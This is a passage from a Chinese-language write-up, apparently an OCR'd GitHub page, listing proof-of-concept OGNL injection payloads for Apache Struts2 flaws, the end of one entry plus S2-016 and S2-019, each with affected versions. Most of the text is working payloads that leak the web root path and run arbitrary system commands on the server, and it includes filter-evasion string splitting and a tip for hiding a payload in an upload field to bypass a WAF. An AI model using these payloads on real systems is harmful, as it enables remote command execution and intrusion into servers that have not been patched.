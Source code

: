 如果参数值为get或all，在获取对应的参数值时执行了OGNL表达式

###### 构造PoC
######## 获取web根目录
```
a=${(%23_memberAccess["allowStaticMethodAccess"]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23out.println('webpath%3a'%2b%23req.getRealPath("/")),%23out.close())}
```
######## 执行系统命令
```
a=${(%23_memberAccess["allowStaticMethodAccess"]=true,%23a=@java.lang.Runtime@getRuntime().exec('"+cmd+"').getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[50000],%23c.read(%23d),%23out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23out.println('dbapp%3a'%2bnew java.lang.String(%23d)),%23out.close())}
```
#### Struts2 S2-016

    影响版本: 2.0.0 - 2.3.15
    漏洞详情: https://struts.apache.org/docs/s2-016.html


​    
>DefaultActionMapper 类支持以 action:，redirect: 和 redirectAction: 作为访问前缀，前缀后面可以跟 OGNL 表达式，由于 Struts2 未对其进行过滤，导致任意 Action 可以使用这些前缀执行任意 OGNL 表达式，从而导致任意命令执行

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。

###### 构造PoC
######## 获取web根目录

```
?redirect:${##req=##context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),##resp=##context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),##resp.setCharacterEncoding('UTF-8'),##ot=##resp.getWriter (),##ot.print('web'),##ot.print('path:'),##ot.print(##req.getSession().getServletContext().getRealPath('/')),##ot.flush(),##ot.close()}
```
######## 执行系统命令

```
?redirect:${##a=(new java.lang.ProcessBuilder(new java.lang.String[]{'whoami'})).start(),##b=##a.getInputStream(),##c=new java.io.InputStreamReader(##b),##d=new java.io.BufferedReader(##c),##e=new char[50000],##d.read(##e),##matt=##context.get('co'+'m.ope'+'nsymph'+'ony.x'+'wor'+'k2.disp'+'atch'+'er.HttpSe'+'rvletRe'+'sponse'),##matt.getWriter().println(new java.lang.String(##e)),##matt.getWriter().flush(),##matt.getWriter().close()}'
```

还有一种比较隐蔽的方法，将PoC放在文件上传的name处，过waf。
#### Struts2 S2-019
    影响版本: 2.0.0 - 2.3.15.1
    漏洞详情: https://cwiki.apache.org/confluence/display/WW/S2-019

该漏洞成因为开启了开发者模式，传入`debug=command&expression=`导致执行OGNL表达式，从而造成命令执行漏洞。

###### 构造PoC
######## 获取web根路径
```
debug=command&expression=%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23resp%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23resp.setCharacterEncoding%28%27UTF-8%27%29%2C%23resp.getWriter%28%29.println%28%27webpath%3A%27%2b%23req.getSession%28%29.getServletContext%28%29.getRealPath%28%27%2f%27%29%29%2C%23resp.getWriter%28%29.flush%28%29%2C%23resp.getWriter%28%29.close%28%29
```
